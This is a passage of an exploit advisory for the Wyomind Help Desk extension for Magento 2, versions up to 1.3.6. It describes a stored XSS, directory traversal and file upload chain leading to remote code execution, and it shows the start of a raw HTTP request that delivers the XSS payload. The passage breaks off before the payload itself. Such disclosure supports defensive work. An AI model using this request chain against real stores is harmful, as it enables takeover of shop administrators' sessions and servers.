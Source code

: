 <languages />

漏洞影響
--------

Version: \<= 1.3.6

EXP
---

    # Exploit Title: Wyomind Help Desk 1.3.6 - Remote Code Execution (RCE)
    # Date: 2021-07-07
    # Exploit Author: Patrik Lantz
    # Vendor Homepage: https://www.wyomind.com/magento2/helpdesk-magento-2.html
    # Version: <= 1.3.6
    # Tested on: Ubuntu 18.04-20.04, Apache, PHP 7.2, Magento 2


    The Mangento 2 Help Desk extension from Wyomind up to and including version 1.3.6 is vunerable to stored XSS, directory traversal and  unrestricted upload of a dangerous file type. These vulnerabilites combined could lead to code execution.

    A XSS payload can be sent via the ticket message from the front-end in the 'Support - My tickets' section.
    The payload is triggered when an administrator views the ticket in the Magento 2 backend. The following request enable
    the delivery of the XSS payload:

    POST /helpdesk/customer/ticket_save/ HTTP/1.1
    Host: <redacted>
    Content-Type: multipart/form-data; boundary=---------------------------243970849510445067673127196635
    Content-Length: 683
    Origin: https://<redacted>
    Connection: close
    Referer: https://<redacted>/helpdesk/customer/ticket_view/
    Cookie: <redacted>
    Upgrade-Insecure-Requests: 1

    -----------------------------243970849510445067673127196635
    Content-Disposition: form-data; name="form_key"

    <redacted>
    -----------------------------243970849510445067673127196635
    Content-Disposition: form-data; name="object"
